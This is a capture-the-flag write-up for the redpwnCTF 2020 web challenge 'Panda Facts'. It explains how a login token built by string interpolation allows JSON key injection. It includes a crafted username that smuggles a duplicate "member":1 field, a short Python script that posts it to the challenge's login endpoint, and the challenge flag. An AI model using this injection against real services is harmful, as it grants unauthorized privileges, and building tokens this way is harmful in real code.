

# Panda Facts
Points: 412
## Category
Web
## Problem Statement
I just found a hate group targeting my favorite animal. Can you try and find their secrets? We gotta take them down!\
Site: panda-facts.2020.redpwnc.tf\
Attachment : "index.js"
## Solution
* Website allows to login with any username.
* After login, when you click on `Click to see a member-only fact!` you are greeted with alert `You are not a member`.
* `index.js` has 3 api end points namely `/api/login`, `/api/validate` and `/api/flag`. Its used `aes-192-cbc` encryption for cookie tokens. More or less impossible to decrypt it.
* Some additional variables in token made it almost impossible to forge cookie.
* Token consists of this line. We need `"member":1` to get flag.
`const token = `{"integrity":"${INTEGRITY}","member":0,"username":"${username}"}``
* Also `vulnerability` is this LoC.
* We will abuse the fact that `{"member":0,"member":1}` then second `"member"` over writes first `"member"`.
* Now we need something similar to [sql injection](https://ctf101.org/web-exploitation/sql-injection/what-is-sql-injection/).
* Username should contain `"member": 1`. We can take username as `admin","member":1,"aa":"ab`.
* Note that username we need `"` in username.
* `--data-binary '{"username":" admin\",\"member\":1,\"aa\":\"ab \"}'` as curl gave us 400.
* Then I just wrote a python script.
```py
import requests
import json
url='https://panda-facts.2020.redpwnc.tf/api/login'
h={'content-type': 'application/json'}
d={"username":'admin","member":1,"aa":"ab'}
resp=requests.post(url,headers=h,data=json.dumps(d))
print(resp)
for v in resp:
    print(v)
```
* It gave us required token. We manually changed cookie in browser.



## Flag
```
flag{1_c4nt_f1nd_4_g00d_p4nd4_pun}
```
